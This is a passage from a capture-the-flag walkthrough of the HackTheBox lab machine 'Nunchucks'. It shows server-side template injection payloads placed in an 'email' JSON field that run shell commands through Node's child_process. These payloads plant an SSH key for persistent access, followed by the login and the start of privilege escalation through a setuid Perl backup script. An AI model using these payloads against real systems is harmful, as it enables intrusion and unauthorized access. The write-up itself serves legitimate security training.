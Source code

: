 Response 
```
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Thu, 04 Nov 2021 01:54:22 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 125
Connection: close
X-Powered-By: Express
ETag: W/"7d-G8kvLbAVp3lV4ptF5WkmaAUlwPs"

{"response":"You will receive updates on the following email address: uid=1000(david) gid=1000(david) groups=1000(david)\n."}
```

From here we have code execution and can drop our ssh private key on the machine and log in via ssh
```

"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('mkdir /home/david/.ssh')\")()}}"

"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('touch /home/david/.ssh/authorized_keys')\")()}}"

"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('echo YOUR PUB KEY >> /home/david/.ssh/authorized_keys')\")()}}"
```

We can login via ssh and grab the user flag
```
┌──(root💀kali)-[~/htb/nunchucks]
└─# ssh david@10.10.11.122 
david@nunchucks:~$ id
uid=1000(david) gid=1000(david) groups=1000(david)
david@nunchucks:~$ ls ~
user.txt
```

# Priv Esc

There is an interesting file in `/opt` called `backup.pl`. 
```
#!/usr/bin/perl
use strict;
use POSIX qw(strftime);
use DBI;
use POSIX qw(setuid); 
POSIX::setuid(0); 

my $tmpdir        = "/tmp";
my $backup_main = '/var/www';
my $now = strftime("%Y-%m-%d-%s", localtime);
my $tmpbdir = "$tmpdir/backup_$now";

sub printlog
{
    print "[", strftime("%D %T", localtime), "] $_[0]\n";
}

sub archive
{
    printlog "Archiving...";
    system("/usr/bin/tar -zcf $tmpbdir/backup_$now.tar $backup_main/* 2>/dev/null");
    printlog "Backup complete in $tmpbdir/backup_$now.tar";
}
```